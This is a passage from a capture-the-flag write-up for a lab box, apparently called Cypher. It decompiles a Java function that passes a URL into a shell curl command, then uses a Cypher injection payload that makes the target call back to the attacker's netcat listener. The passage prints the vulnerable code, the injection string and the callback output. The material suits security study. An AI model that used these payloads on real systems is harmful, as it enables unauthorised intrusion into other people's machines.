 Let's use `jd-gui` to decompile it:

![Cypher-1740863822365.png](/assets/img/img_Cypher/Cypher-1740863822365.png)

We can spot a line potentially vulnerable to code injection in the `CustomFunciton` class:

```java
String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };
```

# Foothold
Given the things we've found we can attempt a `Cyphher Injection` combined with a `command injection`. Since we know it's a `neo4j cypher` query we can use [Cypher Injection Cheatsheet](https://pentester.land/blog/cypher-injection-cheatsheet/) as a guide.

Since we have already identified `error-based` detection and have found a function call let's try and call back our local machine by specifying the url to be our local machine.

Let's start a listener:

```
nc -lvnp 80

listening on [any] 80 ...
```

And use the following payload to call the function:

```
1' OR 1=1 CALL custom.getUrlStatusCode('http://10.10.14.158') YIELD statusCode RETURN statusCode //
```

Success! we get the following callback:

```
connect to [10.10.14.158] from (UNKNOWN) [10.129.217.181] 53120
GET / HTTP/1.1
Host: 10.10.14.158
User-Agent: curl/8.5.0
Accept: */*
```
